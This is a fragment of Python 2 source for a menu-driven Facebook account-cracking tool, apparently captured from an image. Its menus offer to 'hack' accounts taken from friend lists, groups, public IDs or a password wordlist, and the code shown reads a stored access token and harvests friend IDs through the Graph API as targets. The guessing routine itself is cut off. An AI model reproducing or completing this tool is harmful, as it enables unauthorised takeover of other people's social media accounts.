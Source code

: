 	print 42*"\033[1;96m="
	print "\033[1;96m[\033[1;92m✓\033[1;96m]\033[1;35m Name \033[1;91m: \033[1;32m"+nama+"\033[1;97m               "
	print "\033[1;96m[\033[1;97m✓\033[1;96m]\033[1;34m ID   \033[1;91m: \033[1;32m"+id+"\x1b[1;97m              "
	print 42*"\033[1;96m="
	print "\x1b[1;96m[\x1b[1;92m1\x1b[1;96m]\x1b[1;37m Hack Facebook Idz"
	print "\x1b[1;96m[\x1b[1;92m2\x1b[1;96m]\x1b[1;36m Hack GrOup Id               "
	print "\x1b[1;96m[\x1b[1;92m3\x1b[1;96m]\x1b[1;33m Yahoo id clone               "
	print "\x1b[1;96m[\x1b[1;91m0\x1b[1;96m]\x1b[1;91m LogOut            "
	pilih()


def pilih():
	unikers = raw_input("\n\033[1;97m >>> \033[1;97m")
	if unikers =="":
		print "\033[1;96m[!] \x1b[1;91mFill in correctly"
		pilih()elif unikers =="1":
		super()
	elif unikers =="2":
		grupsaya()
	elif unikers =="3":
		yahoo()
	elif unikers =="0":
		jalan('Remove token successful')
		os.system('rm -rf login.txt')
		keluar()
	else:
		print "\033[1;96m[!] \x1b[1;91mFill in correctly"
		pilih()


def super():
	global toket
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;96m[!] \x1b[1;91mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	os.system('clear')
	print logo
	print 42*"\033[1;96m="
	print "\x1b[1;96m[\x1b[1;92m1\x1b[1;96m]\x1b[1;37m Hack From Friendlist"
	print "\x1b[1;96m[\x1b[1;92m2\x1b[1;96m]\x1b[1;36m Hack Public idz"
	print "\x1b[1;96m[\x1b[1;92m3\x1b[1;96m]\x1b[1;35m Hack From Grup"
	print "\x1b[1;96m[\x1b[1;92m4\x1b[1;96m]\x1b[1;93m Hack From File (Using wordlist Method)"
	print "\x1b[1;96m[\x1b[1;91m0\x1b[1;96m]\x1b[1;91m Back"
	pilih_super()

def pilih_super():
	peak = raw_input("\n\033[1;97m >>> \033[1;97m")
	if peak =="":
		print "\033[1;96m[!] \x1b[1;91mFill in correctly"
		pilih_super()
	elif peak =="1":
		os.system('clear')
		print logo
		print 42*"\033[1;96m="
		jalan('\033[1;96m[✺]\033[1;37mScanning ID Friendz \033[1;97m...')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])